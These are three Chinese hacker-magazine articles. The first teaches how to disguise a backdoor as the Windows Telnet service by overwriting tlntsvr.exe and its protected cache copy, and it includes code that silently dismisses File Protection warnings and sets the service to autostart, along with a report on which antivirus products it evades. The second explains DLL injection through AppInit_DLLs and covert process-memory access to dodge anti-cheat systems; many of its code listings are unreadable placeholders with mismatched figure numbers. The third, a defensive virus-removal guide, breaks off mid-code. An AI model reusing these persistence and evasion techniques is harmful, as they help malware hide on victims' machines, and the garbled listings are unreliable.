
# 利用 Windows 系统服务启动后门程序


文/图 masepu

## 编写目的

隐藏有效的自启动方式是编写后门程序需要重点研究的核心技术问题之一。如何使后门程序悄无声息地自动运行并能避开主机上安装的大量防护软件的监控和拦截顺利连接网络，一直是后门软件需要不断突破的难点问题。现在主流的杀毒软件都带有主动防御、防火墙、程序行为监控等功能，对常见的程序自启动方式都会监控和拦截，凡是用户程序对注册表敏感键值的操作都会报警，用户程序复制自身到系统目录下也会提示为危险行为。为了找到隐藏有效的软件启动方法，我对利用 Windows 服务启动程序的方式进行了一些分析和测试，希望与大家共同研究和探讨。

如利用开始菜单的启动组启动、利用注册表中的 Run 键和 RunOnce 键启动、大量各异的注册表项启动方式、利用注册为 Windows 服务方式启动和利用驱动程序启动等。但是在应对众多防护软件和杀毒软件时，以上常规的启动方式都会因为要修改注册表或是执行敏感操作而被主动防御类软件、防火墙或杀毒软件发现和拦截。值得注意的是，很多安全防护软件为了提高效率避免误杀，对于 Windows 系统中已存在的系统文件总是网开一面，这些文件中有些可以随着系统的启动而启动，自由访问网络而不受限制。由此我想，如果能够将系统里的某些服务替换为我们自己的程序，让系统能够顺利启动该服务而不出错，并且解决掉 Windows XP 系统保护还原的问题，那么我们的程序就可以利用系统中已有的服务运行起来，解决后门程序隐藏启动的问题了。

## 编写思路

针对程序的自启动方式，我们可以收集到几十种不同的方法。

## 基本概念

Microsoft Windows 服务（Windows Service）是微软操作系统中使用的一种应用程序类型，都遵循服务控制管理器（SCM）的接口标准。它们会在登录系统时自动运行，甚至在没有用户登录系统的情况下也会正常执行，类似于 UNIX 系统中的守护进程（daemon）。它们大多是控制台程序，不过也有少数 GUI 程序。我们能够按照 Windows 服务规范编写出自己的、在 Windows 会话中长时间运行的可执行应用程序。它可以在计算机启动时自动启动，可以暂停和重新启动，而且不显示任何用户界面。我们也可以按照 Windows 服务规范编写出以服务方式启动的后门程序，来实现后门程序的自启动功能。

Windows 文件保护（WFP）是微软操作系统防止用户或程序替换重要 Windows 系统文件而设置的重要功能。WFP 可保护 Windows 的一部分重要系统文件。WFP 使用文件签名和代码签名所生成的编录文件来验证受保护的系统文件是不是正确的 Microsoft 版本。除了通过几种系统授权的机制来替换受保护的系统文件外，如果使用其他方法替换受保护的文件，则 WFP 会还原原始文件。通过保护这些文件，可以防止程序和操作系统出现问题。

SERVICE_WIN32_OWN_PROCESS 就会立即调用 StartServiceCtrlDispatcher 函数执行；如果服务类型是 WIN32_SHARE_PROCESS，通常在初始化所有服务之后再调用它。StartServiceCtrlDispatcher 函数的参数就是一个 SERVICE_TABLE_ENTRY 结构，它包含了进程内所有服务的名称和服务入口点。

服务 ServiceMain 函数：函数 ServiceMain 是服务的入口点。在服务控制程序请求一个新的服务启动时，服务控制管理器启动一个服务，并发送一个开始请求到控制调度程序，而后控制调度程序创建一个新线程来执行 ServiceMain 函数。ServiceMain 须执行以下任务：调用 RegisterServiceCtrlHandler 函数注册一个 HandlerEx 函数来向服务发送控制请求信息，返回值是服务状态句柄，用来向服务控制管理器传送服务状态。初始化后调用 SetServiceStatus 函数，设置服务状态为 SERVICE_RUNNING。最后，就是执行服务所要完成的任务，我们将要执行的后门代码写入到该函数下，当服务启动后该代码就会顺利执行。

服务 Control Handler 函数：每个服务都有一个控制句柄 HandlerEx 函数。它会在服务进程从服务控制程序接收到一个控制请求时被控制调度程序所调用。无论何时在 HandlerEx 函数被调用时，都要调用 SetServiceStatus 函数向服务控制管理器报告它当前的状态。在用户关闭系统时，所有的控制句柄都会调用带有 SERVICE_ACCEPT_SHUTDOWN 控制代码的 SetServiceStatus 函数来接收 SERVICE_CONTROL_SHUTDOWN 控制代码。

## 具体实现

我们首先要找到一个合适的系统中已存在的服务，并且该服务不是系统核心或重要服务。我们要将系统内的某些服务程序替换，当然不能把系统必须的重要程序替换掉，否则用户使用计算机的重要功能将会受到影响。我们替换的应该是用户基本上不使用的服务程序。比如对于不使用 Telnet 服务的用户就可以替换掉 tlntsvr.exe 程序。还有像 ClipBook、NetDDE 等服务都是 XP 系统默认安装的，且都是默认禁用和停止的。这里我们以 Telnet 服务为例来进行测试和更改。此处 Telnet 不是我们常用的客户端程序，而是服务端程序，这里对应的服务程序位置为 `C:\WINDOWS\system32\tlntsvr.exe`。当我们打开该服务时，就能够允许远程用户登录到此计算机并运行程序。一般用户是不会使用该服务的，所以系统中该服务默认为禁止。可以用我们编写好的后门程序替换掉这个 tlntsvr.exe 服务程序，并将该 Telnet 服务程序设为自动运行状态并启动，这样就达到了利用 Windows 系统已安装的服务启动自己程序的目的了。具体实现可分为以下三个部分。

- 1. 编写伪造的 Tlntsvr.exe

首先要将我们的后门程序更改为符合 Windows XP 服务规范的程序。因为服务程序需要接受系统中服务控制管理器的调度，包括服务的开始、停止和恢复等。当服务控制程序向服务程序发送以上操作的控制请求时，这些操作必须要服务程序正确响应才行，否则就会报错。我们在了解 Windows 服务原理的基础上，直接按照服务开发的标准来开发程序即可。一个服务程序内可以包含一个服务或多个服务的执行代码，但是它们都拥有固定的三个部分：服务 main 函数、服务 ServiceMain 函数和服务 Control Handler 函数。

服务 main 函数：服务程序通常以控制台的方式存在，所以它们的入口点都是 main 函数。在服务控制管理器开始一个服务程序时，会等待 StartServiceCtrlDispatcher 函数的执行。

我们将要执行的程序代码按规范写入到 ServiceMain 函数下，其他部分按照服务标准模板编写即可。当服务启动，该符合服务程序规范的后门程序就会顺利执行。

- 2. 用伪造的程序替换掉原始的 Tlntsvr.exe 文件

我们要将系统内的 Tlntsvr 服务程序替换为自己的后门程序，但是此类系统程序是微软操作系统重点保护的，对它的替换操作系统会用其 cache 目录下的备份文件来恢复。为了达到替换目的，我们可以同时对以上两处进行替换，让操作系统无法正确恢复 cache 文件夹中的原始文件。但这样 Windows 操作系统会弹出提示框，提示用户文件已被替换，自动防护已关闭，要求用户插入系统安装光盘进行恢复。对于这个问题我们可以用一个比较原始但却有效的办法来解决，即用程序新建一个线程后台监视替换后弹出的提示窗口，一旦发现该提示窗口，立即模拟用户单击来迅速关闭。以此来解决系统服务替换的问题。以下是实现的主要代码：

```cpp
if (CopyFile(SourceFileName, telnetFileName, FALSE)
    && CopyFile(SourceFileName, telnetCacheFileName, FALSE))
{
    // 如果复制成功，则开新线程监视关闭 Windows 的报错对话框
    CreateThread(NULL, 0, (LPTHREAD_START_ROUTINE)CloseErrorBox, NULL, 0, NULL);
}

void CloseErrorBox()
{
    while (1)
    {
        MessageBoxHandle = FindWindow(NULL, "Windows 文件保护");
        if (MessageBoxHandle)
        {
            PostMessage(MessageBoxHandle, WM_QUIT, 0, 0);
        }
        Sleep(10);
    }
}
```

## 3. 更改 Telnet 服务的启动类型为自动，且启动该服务

Windows XP 在默认安装的情况下，Telnet 服务是禁用的。为了达到自启动的目的，我们必须将该服务设为自动运行并启动。

由于我们伪造的 Telnet 服务程序 `tlntsvr.exe` 是按照标准的服务规范编写的，因此可以使用服务操作函数对其进行控制，而不会出现错误。以下是更改服务类型和启动服务的代码：

```cpp
// 把 Telnet 服务改成自动
SC_HANDLE ServerHandle, TelnetHandle;
ServerHandle = OpenSCManager(NULL, NULL, SC_MANAGER_ALL_ACCESS);
TelnetHandle = OpenService(ServerHandle, "TlntSvr", SERVICE_ALL_ACCESS);
ChangeServiceConfig(TelnetHandle, SERVICE_WIN32_OWN_PROCESS, SERVICE_AUTO_START, SERVICE_ERROR_NORMAL, telnetFileName, NULL, NULL, NULL, NULL, NULL, "Telnet");
```

```cpp
StartService(TelnetHandle, 0, NULL);   // 启动 Telnet 服务
```

## 测试效果

该方法默认用户不会使用被替换掉的服务，因此程序没有考虑用户如果要使用被替换掉服务的情况。在默认安装的 Windows XP SP3 简体中文版操作系统下，分别对装有 Norton Internet Security 2010、McAfee 防病毒和防火墙组合装、小红伞、KIS2010、360 安全卫士的防护软件环境下进行测试，其中前三款防护软件均能顺利通过，360 对该程序的行为有提示，而 KIS2010 对没有数字签名的程序运行时都会有提示。各位谁有好的方法通过这两种杀毒软件，希望能到论坛中交流。

> （编辑提醒：本文涉及的代码可以到黑客防线官方网站下载）

- 前置知识：无
- 关键字：反外挂、秘密通信


# 冰城反外挂系统之秘密通信原理

文/图 Shawn (L. Spiro) Wilcoxen 译/riusksk（泉哥）

## 前言

逃避反外挂系统的检测是当今新生游戏黑客最大的障碍，而存活最久的逃避方法当属 DLL 注入。在外面流传的黑客技术/工具是最容易被封杀的，这仅在与目标游戏进行频繁交互的系统函数上挂钩即可实现。本文涵盖了这些技术及工具绕过检测的方法，又通过向目标进程注入 DLL 来避免调用挂钩的系统函数，进而使这些黑客工具可以访问任何目标进程；如果直接调用的话，就可能会被反外挂系统发现，进而被查杀。在文中有两份独立代码：一份是用于注入到游戏进程的 DLL 文件，一份是与 DLL 交互的工具，主要用于秘密获取目标进程的相关信息。

通过简单地调用函数 `Beep()` 以便让我们知道 DLL 是否被注入到目标进程。这个可借助 DLL 注入工具，将任意进程注入我们的 DLL；如果听到响声，就说明 DLL 已经被成功注入并执行了。

注意：在 Windows 7 中，`Beep` 函数使用默认声卡，不像其他版本的 Windows 将声音中继到主板喇叭上。

注意：为了使用 Microsoft® Visual Studio® 调试 DLL，需先打开工程属性（按 Alt+F7 组合键），然后选择 “Debugging” 属性页，将 “Command” 设置为 “winmine.exe”（Windows XP）或者 “Minesweeper.exe”（Windows Vista 或 Windows 7）（译注：此为扫雷程序，必须输入完整路径才能执行，可通过浏览文件选择程序），以上都是在 Debug build 下创建的（读者可自行选择 Release build）。在 Debug 版本下按 F5 键启动 Minesweeper，然后使用任意软件（比如内存搜索修改工具 MHS、CheatEngine 等）注入创建的 DLL。如果此时在 `DLLMain()` 上下断，你就可以看到当 DLL 被注入后即被断下。接着你可以从这里进行单步或普通调试。

## 创建 DLL

DLL 文件是整个进程最基本的组成部分。我们先创建出一个 DLL 的基本框架，然后将其注入到进程中。关于 DLL 代码也没有什么特别之处，其源码如图 1 所示。


## 封门 DLL

在准备测试 DLL 注入前，需要先找出一种可偷偷注入所有进程的方法。下面有几种可将 DLL 注入目标的方法。当 DLL 注入进程后，DLL 即可正常工作而不会被检测到。反外挂软件通常是检测使用 `CreateRemoteThread()` 和 `SetWindowsHookEx()` 暴力注入的方法，但如果你想随意地使用这些注入进程，可以看看本文所揭露的方法：频繁被非侵入式（non-intrusive）程序所使用的 AppInit_DLLs 注册表键值（译注：AppInit DLLs 表值是用于初始化动态链接库，它可以为任一进程调用一个 DLL 列表。当进程启动后，AppInit_DLLs 中的 DLL 文件就会注入到该程序里启动。测试这种方法最简单的方式是手动将 DLL 文件路径添加到注册表中的 `HKEY_LOCAL_MACHINE\Software\Microsoft\Windows NT\CurrentVersion\Windows\AppInit_DLLs`，然后加载一个进程，比如记事本或计算器。

注意：在 Windows XP 中，这项工作甚是简单；但在 Windows Vista 中，由于各项安全机制的保护，这种方法可能会受到限制。而在 Windows 7 上虽可实现，但只能通过一些循环跳转来修改注册表中的相同键值（`LoadAppInit_DLLs` 和 `RequireSignedAppInit_DLLs`）。对于这些系统，最好是使用一些替代 DLL 注入的方法。在将 AppInit DLLs 设置为 `F:\temp\MyDll.dll`（没有引号）时，由于此值是通过空格进行分隔的，因此只能使用不包含空格的路径。更改注册表后，打开 Windows 系统上的计算器即可听到响声了，可见 DLL 已经被加载了。若想恢复原样，只需要删除注册表中的此值然后重启即可。

## 通信原理

DLL 文件需要向系统中的每一个进程广播它的存在，如果有一个（或者更多）进程响应，它将会与“连接”此进程，并进行更多的通信。有很多方法可以建立一个私用通信网络，这里所谓的“私用（Private）”是指通信网络不会在软件内部引发警告。如果你使用附带 `HWND_BROADCAST` 和 `WM_USER+0x100` 参数的 `SendMessage()`，那么反外挂系统就会捕获此消息，并假设你的通信网络正处于活动状态，接着将会终止游戏进程。

有许多方法可用来掩盖网络通信，其中一个方法是基于 LAN 通信来侦测通信网络；其他方法根本不发送消息到目标窗口。但由于你的 DLL 文件名应该是随机的，因此只有 DLL 本身和客户端软件真正知道 DLL 名称。如果客户端软件卸载了此 DLL，那么该 DLL 需要向其他未加载此 DLL 的进程发送秘密信息，以实现进一步的通信，这也是本文所选择的方法。客户端软件不能以其他方法进行通信，因为这可能会破坏游戏中某些保护机制。与此同时，该 DLL 事先并不知道给定的进程是否是客户端进程，因此进行数据共享的地址也是无法预先确定的。此种方法可先通过 `SendMessage()` 进行首次连接，然后再使用 `ReadProcessMemory()` 和 `WriteProcessMemory()` 进行后续通信。

## 做好准备

在实现通信层前有几个关键问题需要处理。首先，至关重要的是创建一个用于与目标打交道的类。这个类里面封装了一些系统函数，便于后面进行重写和修改。例如，为了直接替代函数 `ReadProcessMemory()`，可通过类中某实例来调用封装函数，它会转而调用 `ReadProcessMemory()`。接着，当你想添加一个内核驱动程序来改变读取进程内存的方式时，你只需简单地重写类函数，并创建一个该类的实例即可，那么使用该类中封装函数的代码均会自动得到更正。下面的代码就是这样的一个类，如图 2 所示。


图 2

## 建立连接

最后，我们通过 DLL 与客户端程序建立连接，并使用一个类来管理每次连接。然而，为了达到这一点，我们必须先检测一下客户端程序。这似乎很简单，只是将消息发送给每个进程，并判断进程是否响应。这种方法只分配一个缓冲区用于存放客户端响应信息，然后将此地址发送到每个进程中。若其中某进程的缓冲区被响应信息填充了，那么它就是客户端进程。

然而不幸的是，我们可以打开多个客户端程序实例；如果它们同时将响应信息发送到同一个缓冲区，那么就有一份响应信息会丢失，而且 DLL 只能与其中一个实例进行连接。因此我们需要为每个可能会响应的进程（基本上都有可能）提供一个缓冲区。一旦发现响应，我们将缓冲区发送给其受理的类，该类会处理所有与 DLL 间的通信，并对客户端程序进行响应。

## 通信缓冲区

我们的通信系统的工作原理是让每个程序（DLL 和客户端）将信息写入 RAM 内部指定的接收地址，此接收地址会被持续监测。每条消息以能够被 DLL 和客户端软件解析的特定格式发送，我们可以通过结构体、联合体和枚举来构造这样的格式。首先，实际的消息类型需要被枚举，如图 3 所示。


图 3

其次，每条消息格式的定义如图 4 所示。


图 4

最后，使用一个联合体让单个结构体以图 4 中所示的格式来包含数据。具体代码如图 5 所示。

```cpp
// 图中代码块（图5），内容因图像噪声较大不可完整辨识
```

图 5

注意，在客户端和 DLL 中均将使用这种结构体。

## 首次连接

当 DLL 想扫描未注入 DLL 的程序时，就需要先尝试初始化连接。由于 DLL 欲注入到每一个启动进程中（但并不局限于此），因此我们可以假设未被注入 DLL 的进程会有意地从其自身卸载 DLL，并有可能成为我们想要建立连接的客户端软件。此外，假设游戏进程受反外挂系统保护，那么恶意程序将很难发送可疑的探测消息给游戏进程。一般来说，所有连接工作都是相同的。

客户端软件将有一个内存区域，此内存受到 DLL 的严格监管；当检测到有变更时，就会利用同一缓冲区来回应消息。然而初始化连接需要发送一个 Windows 消息来设置这一切。更为复杂的是，DLL 并不知道哪个客户端窗口是首次连接的窗口，因此它必须发送消息给每一个由客户端线程创建的窗口。这个代码虽简单，但很长，关于代码解释如图 6 所示。

调用 `EnumThreadWindows()` 需要以下辅助函数，这个函数实际用于发送消息给客户端，以请求获得响应，代码如图 7 所示。

其中，`m_lpctBuffers` 是一个由 `std::vector<LPHTB_COMMUNICATION_BUFFER> m_lpcbBuffers` 定义的类成员。我们用它记录下每一次的初始化连接，并用它来判断是否得到响应。关于这个函数，一旦我们拥有一个可能是客户端进程的 ID，就可以通过调用 `CDIMagic::InitiateCommunication()` 开始进行通信。现在我们需要做的就是找出客户端进程。

```cpp
// 图中代码块（左下大块），内容因图像噪声较大不可完整辨识
```

```cpp
// 图中代码块（图6），内容因图像噪声较大不可完整辨识
```

图 6

```cpp
// 图中代码块（图7），内容因图像噪声较大不可完整辨识
```

图 7

## 查找客户端

从理论上来讲，查找客户端相对比较简单。由于查找过程必须持续进行，因此搜索例程必须是双线程的，以无限循环交替地进行搜索工作，直至被通知终止。另外，它不能消耗过多的 CPU 资源，因此它必须处于低优先级，并在循环中存在一定的休眠过程。在循环搜索中，对于无响应的进程，将不再打开，并移除相关通信记录，然后释放资源。出于简洁没有附上这段代码，但在下面代码中会有所讲解，如图 8 所示。它是个静态函数，因为后面它将调用 `CreateThread()` 函数。

```cpp
// 图中代码块（图8），内容因图像噪声较大不可完整辨识
```

图 8

`DllsInProc` 简单地扫描进程中与当前 DLL 同名的模块，代码如图 9 所示。

```cpp
// Listing 9: DllsInProc scans process for modules whose name matches current DLL
// ...
```

图 9

然后，我们从新的主入口点来运行 DLL，代码如图 10 所示。

```cpp
// Listing 10: Our new DLL entry point
// ...
```

图 10

## 客户端响应

当 DLL 广播消息时，客户端的首要任务是接收这些信息。由于消息被发送到每一个窗口，因此很容易捕获，其代码如图 11 所示。

```cpp
// Listing 11: handling messages and finding initial message sent by DLL
// ...
```

图 11

我们在客户端程序的主窗口过程里捕获消息，参数 `lParam` 用于保存进程上下文中的通信缓冲区地址。为了测试系统是否处于工作状态，可在 break 上面使用一段无用代码（比如 `int ihgdhg = 0;`），并在此处下断，然后在 Microsoft Visual Studio 中以调试模式运行客户端，再注入 DLL 到其他进程。若注入后触发断点，说明系统正常运行。

如在 DLL 中一样，我们同样使用一个类来处理与 DLL 的通信。这个类只需要一个通信缓冲区指针，以及与缓冲区交互的接口。对于每个发送到 DLL 的请求均会使用该接口。例如读取被 DLL 感染进程的内存时，该类可以处理成功和失败等各种情况。这个类如图 12 所示。

```cpp
// Listing 12: class CClientConnection (client communication object)
// ...
```

图 12

由于最终会有很多运行程序连接到 DLL，因此需要使用一个数组来记录它们，这可由 `std::vector<CClientConnection*> m_pmmcConnections` 完成。连接数组的管理可由读者实现。这里简单使用 `vector` 和临界区（critical section）实现。构造函数会请求通信响应，此处将缓冲区类型设置为 `HITB_COMMUNICATION_BUFFER::HITB_INITIALREPLY`。由于缓冲区可能是无效内存地址，读写时可能导致客户端崩溃，因此可使用静态函数先检测并返回对象指针以判断地址有效性，如图 13 所示。

```cpp
// Listing 13: verifying a connection and creating object from lParam
// ...
```

图 13

在这个静态函数的帮助下，添加一个通信对象就变得容易多了，如图 14 所示列出了一个使用我们自己管理系统的示例函数。

在文章开头处我们就创建了一个类，用于处理 DLL 与客户端软件间的单一连接。`CreateLink()` 函数就是用于创建这样的一个类，并让它在自身线程中运行。该类运行在自身线程中，并循环运行直至连接中断，或者 DLL 程序关闭，或者客户端程序关闭。每一循环都会检测远程通信缓冲区，以判断客户端程序创建的缓冲区是否被填充满。该类的结构如图 18 所示。


图 14

剩下的就是对 Window 消息挂钩，如图 15 所示。


图 15

## Sealing The Deal

当客户端正在对来自 DLL 的初始连接进行响应时，DLL 会捕获此响应，并在 DLL 与客户端之间创建一个专用线程用于通信。我们修改搜索线程以检测这些响应信息是否来自客户端。检测函数如图 16 所示。


图 16

由于客户端运行在其自身的地址空间中，因此我们将客户端本地的响应缓冲区数据复制到 DLL 中，以便于操作。当缓冲区位于本地时，需要检测它的缓冲区类型。下面是用于在主 DLL 线程中检测响应信息的辅助函数，代码如图 17 所示。


图 17


图 18

这个类可处理的基本功能为：附加和分离客户端进程；并持续检测客户端进程是否关闭。当连接被创建时，该类将自动把目标进程（客户端程序）中的消息状态设置为空闲 `idle`。这是必须的，否则 DLL 将不停地尝试连接客户端。接下来我们添加一个处理规则的函数，用于处理来自客户端程序的请求。当此函数被调用时，就会检测是否存在请求；如果发现存在请求，就对其进行响应以满足请求。该函数的代码如图 19 所示。

```cpp
// Listing 20: The logical update of the class that handles communication
// （代码截图，细节在图中）
```

图 19

这个函数会在它自身的线程中不断被循环调用；然后我们添加一个线程函数，它是个公共静态函数，代码如图 20 所示。

```cpp
// Listing 20: Updating done in a loop in a thread
// （代码截图，细节在图中）
```

图 20

最后，使用 `CreateLink()` 函数创建一个类对象，并在自身线程中启动，然后再创建一个嵌套结构，用于存储类对象和运行线程的句柄，如图 21 所示。

```cpp
// Listing 21: New structure to group connection class and thread
// （代码截图，细节在图中）
```

图 21

接着为这一连接数组创建两个管理例程，其中一个用于创建连接（`CreateLink()`），一个用于关闭连接，如图 22 所示。上面另外添加了一个 `Stop()` 函数。

## WHAT IS HAPPENING

当主 DLL 循环函数检测到初始连接的响应信息时，`CreateLink()` 就会被调用。当远程进程将缓冲区中的 `mType` 成员设置为 `HITB_COMMUNICATION_BUFFER::HITB_INITIALREPLY` 时，初始连接的响应信息也会被检测到。当 DLL 检测到这些改变时，`CTargetProcess` 对象就会被创建，用于处理与客户端的后续通信。为了避免对同一客户端重复连接，客户端进程的缓冲区可被 DLL 远程将 `mType` 成员设置为 `HITB_COMMUNICATION_BUFFER::HITB_IDLE`。

这也意味着客户端进程可以使用本地缓冲区进行通信。接下来，DLL 发送新建的 `CTargetProcess` 对象给自身线程中的循环函数，用于检查和处理远程客户端中的缓冲区数据是否被更改。每次检查都必须对本地缓冲区数据进行复制。它可以直接修改客户端应用程序，因为客户端程序并不能修改 DLL 进程，这在网络通信上是为了避免修改被反外挂保护的 DLL 进程。

```cpp
// Listing 22: Creating and closing connections in the DLL
// （代码截图，细节在图中）
```

图 22

## LET'S COMMUNICATE!

现在 DLL 与客户端程序可以进行通信了，剩下的就是决定创建何种类型的请求。本文只演示了两种请求：读取和写入 DLL 进程的 RAM。为了添加新的请求类型，就必须修改 `HITB_COMMUNICATION_BUFFER` 结构。我们可以添加一个新的请求类型枚举结构，并将包含新建请求类型的数据结构添加进去。在如图 23 所示中，我们添加了 `ReadProcessMemory()` 和 `WriteProcessMemory()` 请求。

为了处理这些消息，我们修改了 `CTargetProcess` 类中的 `Tick()` 函数，如图 24 所示。

```cpp
// CTargetProcessMemory::ReadProcessMemory / WriteProcessMemory
// 与客户端通信缓冲区相关的结构与读写逻辑（节选）
...
```

图23

```cpp
void WINAPI CTargetProcess::Tick()
{
    // 处理客户端请求：读内存/写内存
    // 维护通信缓冲区状态并返回结果
    ...
}
```

图24

```cpp
class CClientConnection
{
    // 请求处理、缓冲区状态切换、同步与返回
    // 包含 HITB_COMMUNICATION_BUFFER::HITB_CLOSING 相关逻辑
    ...
};
```

图25

当客户端请求读取内存时，就需要从 DLL 进程中复制内存到客户端进程中。从 DLL 进程的角度看，使用 WriteProcessMemory 即可解决。反之，亦可处理从客户端向 DLL 写入内存的请求。在响应每一个请求后，返回的数据必须发送到客户端程序，并覆盖之前的缓冲区，但只需要修改与被执行请求类型相关的数据即可。每次请求过后都需要将客户端程序的缓冲区重置回空闲状态，可使用如图25所示的代码来初始化客户端程序的请求。

注意，上面添加了 HITB_COMMUNICATION_BUFFER::HITB_CLOSING 这一缓冲区类型。这告诉我们目标进程即将关闭。在初始化检测后，本地缓冲区可能变成 HITB_COMMUNICATION_BUFFER::HITB_CLOSING。如果我们简单地通过复制来覆盖本地缓冲区（比如 `m_lpcbBuffer->mType = HITB_COMMUNICATION_BUFFER::HITB_WPM`），那么我们就必须承担陷入死循环的风险，因为 DLL 从不会响应我们的请求，这也是使用 InterlockedCompareExchangeAcquire() 的原因所在。最后，通过设置 HITB_COMMUNICATION_BUFFER::HITB_CLOSING 以避免资源泄漏，另外我们在 DLL 的 CTargetProcess 类中添加了一个析构函数，如图26所示。

图26

当从 DLL 到客户端的连接关闭后，就不会再对它响应任何请求，因此最后我们发送一条消息 `HTB_COMMUNICATION_BUFFER::HTB_CLOSING` 给它。由于类中的析构函数只在其管理线程和主线程完全终止时才会被调用，因此在等待请求时覆写缓冲区状态不存在任何风险。在编码客户端程序时应当意识到，缓冲区可在任意时刻被更改为 `HTB_COMMUNICATION_BUFFER::HTB_CLOSING`。

进程的内存，这只需要简单地调用通信对象中的 ReadProcessMemory[] 函数即可实现，并且可悄悄地运行，而不被当前运行的反外挂系统发现。虽然这种方法比直接访问进程速度会慢几倍，但可突破它的保护机制。这里使用比较基础的编程知识，完全在 Ring3 下运行，读者可在此基础上对其进行改进。在 DLL 与客户端之间的密码在每次启动后都必须是随机变化的，并对 DLL 使用硬编码。客户端程序实际上是可以修改 DLL 的，它可在下次对进程进行 DLL 注入前更改密码，但这也会更改 DLL 的 MD5 校验和。DLL 的大小在每次启动中也应该是随机的，这个通过在文件末尾添加随机大小的字节即可实现。注意，在 DLL 中并未存在字符串，因为字符串常常被反外挂系统用来检测 DLL。DLL 也可升级到内核模式。通过重写 CProcess 类中的方法，即可在 Ring0 上实现 DLL 与客户端间的信息交互，并去掉其中最可能被检测到的方法。几乎所有欺骗游戏保护系统的方法都是通过对游戏进程进行 DLL 注入，将这种思路扩展出来，我们还可以利用它实现远程控制进程。

## 结论

利用以上代码，客户端可以在任何时刻读取计算机上的任意进程内存。

前置知识：VC  
关键字：病毒专杀、Ring3

# 病毒专杀编写攻略之 Ring3 篇

文/dragonlrx

现在病毒泛滥，采用的技术也越来越邪恶，要么是全盘感染，要么是进程注入。一不小心中了病毒，清除都要清除好久，稍不留意，又会死灰复燃。因此学会写病毒专杀，对付起来就会轻松多了！这篇文章将会从 Ring3 层阐述病毒专杀攻略。

本文主要从三个部分来阐述，分别是进程相关部分、注册表相关部分、文件相关部分。

## 进程相关部分

### 1. 对抗多进程保护

为了使病毒程序能够在计算机中存活更久，现在的病毒都会采用相关技术来保护自己。一旦病毒进程被结束掉，就会重新创建病毒进程。最常用的就是多进程保护，如双进程保护、三进程保护。一旦病毒进程被结束掉，另外的进程就会检测到并重新创建病毒进程，以达到生生不息的目的。

攻略：将进程挂起，然后逐个结束。

代码如下：

```cpp
typedef DWORD (WINAPI *PFSuspendProcess)(HANDLE hProcess);
PFSuspendProcess SuspendProcess; // 挂起进程的 API，在 ntdll.dll 中
```

```cpp
// 函数功能：挂起进程  参数：进程ID
VOID SuspendProc(DWORD dwPID)
{
    HMODULE hNtDllLib = LoadLibrary("ntdll.dll"); // 加载 ntdll.dll，获得 dll 句柄
    SuspendProcess = (PFSuspendProcess)GetProcAddress(hNtDllLib, "ZwSuspendProcess");
    if (SuspendProcess)
    {
        HANDLE hProcess = OpenProcess(PROCESS_ALL_ACCESS, FALSE, dwPID); // 获取指定进程ID的句柄
        SuspendProcess(hProcess); // 挂起进程
    }
    FreeLibrary(hNtDllLib); // 释放 dll
}

VOID TerminateProc(DWORD dwPID) // 函数功能：结束进程  参数：进程ID
{
    HANDLE hProcess = OpenProcess(PROCESS_ALL_ACCESS, FALSE, dwPID);
    TerminateProcess(hProcess, 0);
}
```

```c
// 函数功能：枚举进程并挂起进程
VOID WINAPI EnumProcessAndSuspendProcess()
{
    HANDLE hProcessSnap;
    PROCESSENTRY32 pe32;
    // Snapshot
    hProcessSnap = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);
    if (hProcessSnap == INVALID_HANDLE_VALUE)
    {
        printf("CreateToolhelp32Snapshot (of processes) error!\n");
        return;
    }
    // 设置输入参数，结构的大小
    pe32.dwSize = sizeof(PROCESSENTRY32);

    // 开始列举进程
    if (!Process32First(hProcessSnap, &pe32))
    {
        printf("Process32First error!\n");
        CloseHandle(hProcessSnap);
        return;
    }
    do
    {
        // 枚举进程然后将病毒进程挂起
        if (stricmp(pe32.szExeFile, "Global.exe") == 0)
        {
            SuspendProc(pe32.th32ProcessID);
        }
        ...
        // 在这里添加要结束的进程名
    } while (Process32Next(hProcessSnap, &pe32));

    CloseHandle(hProcessSnap); // 关闭句柄
    return;
}

// 函数功能：枚举进程并结束进程
VOID WINAPI EnumProcessAndTerminateProcess()
{
    HANDLE hProcessSnap;
    PROCESSENTRY32 pe32;
    // Snapshot
    hProcessSnap = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);
    if (hProcessSnap == INVALID_HANDLE_VALUE)
    {
        printf("CreateToolhelp32Snapshot (of processes) error!\n");
        return;
    }
    // 设置输入参数，结构的大小
    pe32.dwSize = sizeof(PROCESSENTRY32);

    // 开始列举进程
    if (!Process32First(hProcessSnap, &pe32))
    {
        printf("Process32First error!\n");
        CloseHandle(hProcessSnap);
        return;
    }
    do
    {
        // 枚举进程然后将病毒进程结束
        if (stricmp(pe32.szExeFile, "Global.exe") == 0)
        {
            TerminateProc(pe32.th32ProcessID);
        }
        ...
        // 在这里添加要结束的进程名
    } while (Process32Next(hProcessSnap, &pe32));

    CloseHandle(hProcessSnap); // 关闭句柄
    return;
}
```

然后在主程序里调用 `EnumProcessAndSuspendProcess()` 和 `EnumProcessAndTerminateProcess()` 就能将病毒程序结束。无论它有几个进程相互保护，都能轻松干掉！

### 2. 对抗 DLL 进程注入

病毒进程除了会采用多进程保护之外，还会采用 DLL 注入来实现目的，这种方法相对来说比较隐蔽！必须通过监视工具（如 Icesword）来监视程序结束后又被谁创建。如果进程是系统上的系统进程（如 `csrss.exe`、`svchost.exe`），那就是系统进程被 DLL 注入了。但是我们不能直接把系统进程也一起结束，结束完就等着重启了！那怎么办呢？

攻略：既然病毒能将 DLL 注入到进程中，我们也能够将 DLL 从进程中卸载。

代码如下：

```c
说明：为了能够卸载掉注入的 DLL，首先要打开进程获取进程句柄，但是系统进程是不能访问的，因此要通过提升进程的权限至 SE_DEBUG 权限才能访问系统进程

// 函数功能：提升权限
// 参数：lpszPrivilege：权限名  bEnablePrivilege：是否允许
BOOL SetPrivilege(LPCTSTR lpszPrivilege, BOOL bEnablePrivilege)
{
    TOKEN_PRIVILEGES tp;
    LUID luid;
    HANDLE hProcessToken = NULL;
    if (!OpenProcessToken(GetCurrentProcess(), TOKEN_ALL_ACCESS, &hProcessToken))
        return -1;
    if (!LookupPrivilegeValue(NULL, lpszPrivilege, &luid))
        return FALSE;
    tp.PrivilegeCount = 1;
    tp.Privileges[0].Luid = luid;
    if (bEnablePrivilege)
        tp.Privileges[0].Attributes = SE_PRIVILEGE_ENABLED;
    else
        tp.Privileges[0].Attributes = 0;

    // Enable the privilege or disable all privilege.
